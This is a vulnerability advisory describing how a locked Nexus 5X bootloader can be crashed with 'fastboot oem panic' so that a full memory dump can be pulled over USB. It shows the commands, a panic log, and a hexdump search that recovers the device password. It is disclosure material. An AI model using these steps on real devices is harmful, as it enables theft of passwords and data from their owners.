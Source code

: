 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2016-09-01' 
alephid: ALEPH-2016000
date: '2016-09-05'
title: 'Google Nexus 5X Bootloader Unauthorized Memory Dumping via USB'
severity: critical
product:
    - Nexus 5X   
vulnerable:
    - Nexus 5X with Android 6.0 MDA39E through 6.0.1 MMB29V (bootloaders bhz10i/k)    
mitigation: 'Upgrade to the latest version of Nexus (MHC19J or later)'

references:
    - src: SecurityIntelligence
      url: https://securityintelligence.com/going-inside-an-arbitrary-kernel-write-vulnerability-in-the-nexus-9/
      
---
```

A vulnerability in Nexus 5X's bootloader allows an attacker to obtain a full memory dump of the device. The vulnerability can be exploited by either physical attackers, or by non-physical ones having ADB (Android Debug Bridge) access to the device. One possible scenario where a non-physical attacker can have ADB access is by first targeting an ADB-authorized developer’s PC and infecting it with malware. Another way is by using malicious chargers targeting ADB-enabled devices. Using such chargers requires the (naïve) victim to authorize the charger once connected
The attacker reboots the phone into the well-known `fastboot` mode, which can be done without any authentication. A physical attacker can do this by pressing the ‘Volume Down’ button during device boot. An attacker with ADB access can do this by issuing the `adb reboot bootloader` command. The fastboot mode exposes a USB interface, which on locked devices must not allow any security sensitive operation to be commanded. However, what discovered was that if the attacker issued (via the fastboot USB interface) the `fastboot oem panic` command, the bootloader would be forced to crash:
```
[38870] fastboot: oem panic
[38870] panic (frame 0xf9b1768):
[38870] r0  0x0f9972c4 r1  0x4e225c22 r2  0x7541206f r3  0x74206874
[38870] r4  0x0f9972e8 r5  0x0f96715c r6  0x0f9972f0 r7  0x0f9670ec
[38870] r8  0x0f92e070 r9  0x00000000 r10 0x00000000 r11 0x00000000
[38870] r12 0x0f92e070 usp 0x0f9650ec ulr 0x00000000 pc  0x0f99c75c
[38870] spsr 0x0f936964
[38870]  fiq r13 0x0f989490 r14 0x00000000
[38870]  irq r13 0x0f989490 r14 0x0f9004f4
[38870]  svc r13 0x0f9b16f0 r14 0x0f92dd0c
[38870]  und r13 0x0f989490 r14 0x00000000
[38870]  sys r13 0x00000000 r14 0x00000000
[38880] panic (caller 0xf936964): generate test-panic
```  

The problem is that in the vulnerable versions of the bootloader, such a crash caused the bootloader to expose a serial-over-USB connection, which allowed fetching a full memory dump of the device, using tools such as QPST Configuration.

To illustrate the severity of the attack, as the victim, I set the device password to `buggybootload3r` and then searched it in the memory dump:

```terminal
> hexdump DDRCS0_0.BIN | grep -10 bootloa
...
2675d060: 6f 00 69 00 64 00 2e 00 – 73 00 65 00 72 00 76 00 o.i.d… s.e.r.v.
2675d070: 69 00 63 00 65 00 2e 00 – 67 00 61 00 74 00 65 00 i.c.e… g.a.t.e.
2675d080: 6b 00 65 00 65 00 70 00 – 65 00 72 00 2e 00 49 00 k.e.e.p. e.r…I.
2675d090: 47 00 61 00 74 00 65 00 – 4b 00 65 00 65 00 70 00 G.a.t.e. K.e.e.p.
2675d0a0: 65 00 72 00 53 00 65 00 – 72 00 76 00 69 00 63 00 e.r.S.e. r.v.i.c.
2675d0b0: 65 00 00 00 00 00 00 00 – 3a 00 00 00 00 0d c4 b6 e……. ……..
2675d0c0: 6d 42 cd 0a b1 00 00 00 – 00 00 00 00 00 00 00 00 mB…… ……..
2675d0d0: 00 00 00 00 00 92 86 33 – e3 79 92 8b b7 d4 77 f5 …….3 .y….w.
2675d0e0: 94 7f d0 2b fb b8 6e cc – 98 3b 9a a7 0d 7c 60 f6 ……n. ……..
2675d0f0: d7 70 68 c2 14 01 00 00 – 0f 00 00 00 62 75 67 67 .ph….. ….bugg
2675d100: 79 62 6f 6f 74 6c 6f 61 – 64 33 72 00 62 75 67 67 ybootloa d3r.bugg
...
```
As one can see, the password can be found on the fetched memory dump. Physical attackers can then successfully boot the platform, which further allows them to impersonate the user, access data stored on the device and more.
